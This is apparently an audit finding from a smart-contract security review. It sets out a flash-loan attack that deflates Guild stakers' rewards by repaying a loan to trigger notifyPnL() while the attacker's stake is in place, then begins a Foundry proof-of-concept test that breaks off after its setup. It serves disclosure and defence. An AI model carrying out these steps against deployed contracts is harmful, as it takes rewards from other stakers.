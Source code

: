 ## Proof of Concept

The exploiter has two accounts:

- **ALICE account:** This is used to borrow a loan, which the exploiter, will later repay to trigger the `notifyPnL()`.
- **EXPLOITER account:** This account is used to obtain a flash loan, then staked the amount into the same term. This action is designed to deflate rewards for other participants in the system.

> ***Prerequisites**: The exploiter requires approximately $10 balance before the attack to cover the loan interest.*
> 

Here are the detailed steps to execute the described attack:

1. Alice borrows 100 gUSDC.
2. Transfers the borrowed gUSDC to the EXPLOITER account.
3. Waits for 150 days to accumulate interest on the loan. (waiting period can also be shorter, for just 10 days the impact will be slightly lower → 4 decimals less removed from the stakers rewards)
4. EXPLOITER obtains a USDC flash loan.
5. Mints gUSDC through `PSM`.
6. Stakes the minted gUSDC into the same term using SurplusGuildMinter.
7. Repays Alice's position, triggering `notifyPnL()`.
8. `notifyPnL()` updates the `_gaugeProfitIndex`, reducing rewards for other Guild holders.
9. EXPLOITER unstakes.
10. Redeems USDC through PSM.
11. Returns the flash loan.

### Coded PoC

Create new file in `test/unit/loan` called `DeflateGuildHoldersRewards.t.sol`

```solidity
// SPDX-License-Identifier: GPL-3.0-or-later
pragma solidity 0.8.13;

import {Test, console} from "@forge-std/Test.sol";
import {Core} from "@src/core/Core.sol";
import {CoreRoles} from "@src/core/CoreRoles.sol";
import {GuildToken} from "@src/tokens/GuildToken.sol";
import {CreditToken} from "@src/tokens/CreditToken.sol";
import {ProfitManager} from "@src/governance/ProfitManager.sol";
import {MockLendingTerm} from "@test/mock/MockLendingTerm.sol";
import {RateLimitedMinter} from "@src/rate-limits/RateLimitedMinter.sol";
import {SurplusGuildMinter} from "@src/loan/SurplusGuildMinter.sol";

contract DeflateGuildHoldersRewardsUnitTest is Test {
    address private governor = address(1);
    address private guardian = address(2);
    address private ALICE = makeAddr("alice");
    address private EXPLOITER = makeAddr("exploiter");
    address private STAKER1 = makeAddr("staker1");
    address private STAKER2 = makeAddr("staker2");
    address private STAKER3 = makeAddr("staker3");
    address private termUSDC;
    Core private core;
    ProfitManager private profitManagerUSDC;
    CreditToken gUSDC;
    GuildToken guild;
    RateLimitedMinter rlgm;
    SurplusGuildMinter sgmUSDC;

    // GuildMinter params
    uint256 constant MINT_RATIO = 2e18;
    uint256 constant REWARD_RATIO = 5e18;

```